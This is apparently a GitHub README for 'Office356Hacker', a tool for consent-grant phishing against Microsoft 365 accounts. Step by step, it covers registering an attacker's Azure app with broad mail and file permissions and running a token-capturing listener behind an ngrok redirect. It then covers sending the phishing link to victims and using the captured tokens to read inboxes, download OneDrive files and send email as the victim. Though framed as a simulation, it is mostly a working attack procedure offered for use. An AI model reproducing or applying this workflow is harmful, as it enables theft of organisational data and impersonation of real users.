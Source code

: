 
# Office356Hacker
**Illicit Consent Phishing Attack Tool:** This repository hosts a tool for simulating a phishing attack where a user is tricked into granting permissions to an attacker’s Azure app. Once permissions are granted, the attacker gains access to sensitive data, such as emails, files in OneDrive, and can send emails on behalf of the user.

- This attack workflow demonstrates how attackers can leverage a legitimate Microsoft login page to gain user consent, leading to unauthorized access to user data within an organization.
- Blog Reference: <a href="https://www.alteredsecurity.com/post/introduction-to-365-stealer">Detailed Consent Grant Attack Flow</a> 


![image](https://github.com/user-attachments/assets/f5dcdad2-7564-4225-a147-b4939c2683ab)

![](https://img.shields.io/badge/Version-%20v1.0.0-blue)
![](https://img.shields.io/badge/Twitter-%20YasserREED-blue)
![](https://img.shields.io/badge/YouTube-%20YasserRED-red)

## Phishing Attack Flow and Tool Usage

### Setup
1. **Download the Tool**

```bash
sudo git clone https://github.com/YourUsername/Office356Hacker.git
cd Office356Hacker
```
2. **Create a virtual environment to install necessary packages:**

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
deactivate
```

---

#### Phishing Attack Workflow
1. **Send Phishing Link:** Craft a link to the legitimate Microsoft login page with the attacker’s app details.
2. **Capture Authorization Code:** When a user accepts permissions, capture the authorization code from the redirect URL.
3. **Request Access Tokens:** Use the authorization code to gain access tokens for the target account.
4. **Perform Actions:** With the granted permissions, the attacker can view the inbox, download files, or send emails.

---

### `Attack Process`
#### Setup New Registry at Azure AD for Attacker
1. Access [Azure Portal Home](https://portal.azure.com/#home)

![image](https://github.com/user-attachments/assets/d20609fa-3a1e-48e2-b65c-cb8be4643599)

2. Select **Microsoft Entra ID**

![image](https://github.com/user-attachments/assets/6d50396a-221f-4ff6-aa1c-067840905c93)

3. Go to **App registrations**

![image](https://github.com/user-attachments/assets/2b6d8c50-27c8-4a9c-8947-8ce6347c30fa)

4. Click on **New registration**
 
![image](https://github.com/user-attachments/assets/066f13ac-bf30-4988-9427-73b3737a5082)

5. Add the following information using your `ngrok` link as the redirect URL
 
```console
    └─$ ngrok http 5000
```

Copy the link to use it:
- Link: `https://f214-2001-16a2-da57-9400-1d0c-cc4d-3b73-551a.ngrok-free.app`

![image](https://github.com/user-attachments/assets/5386f075-bf70-420d-a122-77dbc2f50a2b)

Add it to the Redirect URI:
- `https://f214-2001-16a2-da57-9400-1d0c-cc4d-3b73-551a.ngrok-free.app/login/authorized`

![image](https://github.com/user-attachments/assets/4b9c8be7-dafb-49ef-a0be-4bdfa7ff5731)

6. Copy Client ID, Then go to **Add certification or secret** to create a secret value
  - `Client-ID = ece26f81-4241-4e03-9207-c4eb3ec964d6`

![image](https://github.com/user-attachments/assets/e97e2a7c-1e3b-4e14-8848-bf2b5d8074b7)

6. Copy the secret value:  
  - `Secret Value`: `IR58Q~W1********************`  

![image](https://github.com/user-attachments/assets/a322283d-e7af-4026-9be3-026f8a9a94ef)

![image](https://github.com/user-attachments/assets/fa3d9576-9e6a-4074-a9c6-ddac41be1d21)

8. Add the required permissions:

**Add the following permissions:**
- User.Read
- Contacts.Read
- Mail.Read
- Mail.Send
- MailboxSettings.ReadWrite
- Files.ReadWrite.All
- User.ReadBasic.All
- Sites.Read.All
- Sites.ReadWrite.All

![image](https://github.com/user-attachments/assets/aec847e7-8777-43b6-88da-b3650e671fb6)

---

### Collected Information
```
Client ID: ece26f81-4241-4e03-9207-c4eb3ec964d6
Secret Value: IR58Q~W1********************
Redirect URL: https://f214-2001-16a2-da57-9400-1d0c-cc4d-3b73-551a.ngrok-free.app/login/authorized
```

Populate this information in `app_config.py`.

![image](https://github.com/user-attachments/assets/17a686b0-3521-4263-bdae-76175499e753)

#### Extracting Data Using the Tool
1. Run the listener to capture the token and copy the phishing URL.

```console
attacker@Machine$ python3 app.py
```

_Note: You can leave it running for additional victim tokens._

![image](https://github.com/user-attachments/assets/10362b1d-89da-442b-a0be-f5f871e04abe)
  
2. Send an email with the URL to the victim and wait for them to accept the permissions.

![image](https://github.com/user-attachments/assets/110593b1-e91c-4a62-a023-8c571311615a)

---

#### Victim Side

![image](https://github.com/user-attachments/assets/b73b44fc-b67d-4d48-9a4a-2ea72ffab408)

Once redirected to the intended site https://outlook.office.com, the attack can proceed.

![image](https://github.com/user-attachments/assets/def85d0e-f461-4303-920b-cfb8a43359f6)

3. Then You can see in CLI the attack is successful

![image](https://github.com/user-attachments/assets/3cd79f92-1b9e-470a-82c6-54a10016902c)

4. When the token is obtained, run `office365Hacker.py` to exploit the token via Microsoft Graph API

```console
attacker@Machine$ python3 office365Hacker.py --token token_data.json
```
_Note: Can handle multiple victims simultaneously._

![image](https://github.com/user-attachments/assets/021115f3-6a20-4e5d-9f8d-c3da4d0bab57)

---

#### Send Email Attack
To send an email on behalf of the victim:

```console
Office365Hacker@user1 > run send_email
```

![image](https://github.com/user-attachments/assets/38991a21-4011-45e0-94d0-fc742f039eb9)

Attacker's inbox

![image](https://github.com/user-attachments/assets/cf71a69c-cb82-4e93-8a57-91fea18211a2)

<br>

---

<p align="center"> Enjoy! :heart_on_fire: </p>
